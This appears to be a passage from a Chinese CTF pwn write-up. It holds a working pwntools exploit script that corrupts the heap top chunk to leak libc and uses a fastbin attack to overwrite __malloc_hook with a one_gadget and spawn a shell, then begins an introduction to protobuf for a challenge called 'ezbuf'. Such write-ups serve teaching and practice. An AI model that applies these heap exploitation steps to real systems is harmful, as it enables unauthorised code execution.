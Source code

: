 ```python
# 修改top chunk大小
add(0x68,b'aaaa')
edit(0x70,b'a'*0x68+p64(0xf91))

# 申请较大chunk使修改后的top chunk置入unsorted bin
add(0x1000,b'aaaa')

# 从unsorted bin中申请内存，填上8字节数据，show泄露bk指针内容，调试获取bk指针指向位置在main_arena的偏移
add(0x10,b'bbbbbbbb')
show()
p.recvuntil(b'bbbbbbbb')
libc_base = u64(p.recv(6).ljust(8,b'\x00'))-(1640+0x3C4B20)
print(hex(libc_base))

# 计算 malloc_hook 和 one_gadget 的地址
malloc_hook = libc_base + libc.sym["__malloc_hook"]
one_gadget = libc_base + one_gadget2

# 申请内存块
add(0x68,b'cccc')

# 删除刚刚申请的堆块，放入fastbin中
delete()

# 在fd指针位置写上malloc_hook-0x23的值，这个地址+8后刚好为0x7c，可以申请0x68大小的空间
edit(0x68,p64(malloc_hook-0x23))
add(0x68,b'dddd')

# 0x13字节后即为__malloc_hook的位置，写上one_gadget
add(0x68,b'a'*0x13+p64(one_gadget))

# 再次调用malloc就会执行__malloc_hook处的指令，即可获取shell
p.sendlineafter(b'choice:',b'1')
p.sendafter(b'content:',str(0x30).encode())
p.interactive()

```

## ezbuf
### protobuf
#### 简介
> 官方文档：https://protobuf.dev/overview/
> protobuf-c的官方文档：https://protobuf-c.github.io/protobuf-c
> protobuf-c的源码仓库：https://github.com/protobuf-c/protobuf-c

Protobuf是一种与语言无关、与平台无关的可扩展机制，用于序列化结构化数据。它类似于 JSON，但体积更小、速度更快，并且会生成本机语言绑定。您只需定义一次数据的结构，然后就可以使用专门生成的源代码轻松地将结构化数据写入各种数据流并使用各种语言读取这些结构化数据。

它支持以下语言
- C++
- C#
- Java
- Kotlin
- Objective-C
- PHP
- Python
- Ruby
